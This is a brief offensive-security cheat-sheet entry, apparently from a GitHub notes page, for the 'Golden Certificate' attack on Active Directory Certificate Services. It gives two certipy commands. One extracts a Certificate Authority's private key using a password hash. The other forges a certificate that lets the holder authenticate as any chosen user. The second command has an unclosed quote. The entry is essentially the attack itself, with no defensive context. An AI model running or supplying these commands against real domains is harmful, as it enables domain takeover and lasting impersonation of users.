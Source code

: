 # Golden Certificate

 - certipy ca -backup -cac'CA_NAME' -username USER@DOMAIN -hashes HASH

 - certipy forge -ca-pfx CA_PRIVATE_KEY -upn USER@DOMAIN -subject 'CN=USER,CN=Users,DC=CORP,DC=LOCAL
